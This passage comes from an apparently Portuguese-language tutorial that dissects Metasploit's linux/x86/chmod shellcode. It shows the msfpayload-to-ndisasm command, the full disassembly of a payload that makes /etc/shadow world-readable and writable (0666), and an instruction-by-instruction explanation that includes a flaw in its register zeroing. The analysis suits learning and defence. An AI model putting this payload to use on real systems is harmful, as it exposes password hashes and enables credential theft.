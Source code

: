 Description:
 Runs chmod on specified file with specified mode
{% endhighlight %}

A syscall chmod recebe dois argumentos, o primeiro é o caminho ou arquivo a ter
as permissões setadas, e o segundo é o bitmask resultado dos respectivos octais
"ORed".

O payload linux/x86/chmod modifica as permissões de acesso do arquivo
/etc/shadow para 0666.

{% highlight console %}
$ msfpayload linux/x86/chmod R | ndisasm -u -
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call dword 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popad
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
{% endhighlight %}

Ele inicia com a instrução [CDQ](http://faydoc.tripod.com/cpu/cdq.htm) no
intento de zerar EDX; aqui, já econtramos uma falha no shellcode do msf. Se
houver lixo em EAX (um número negativo, por exemplo) EDX não será zerado, pois o
CDQ copia o sign bit 31 de EAX para todos os bits de EDX.

{% highlight console %}
00000000  99                cdq
{% endhighlight %}

A segunda instrução coloca o valor 15 ou 0xf em hexa no topo da STACK para
seguidamente ser retirado e inserido em EAX.

{% highlight console %}
00000001  6A0F              push byte +0xf    __NR_chmod
00000003  58                pop eax
{% endhighlight %} [//]: # (__)

Salvando EDX (supostamente 0) na stack.

{% highlight console %}
00000004  52                push edx
{% endhighlight %}
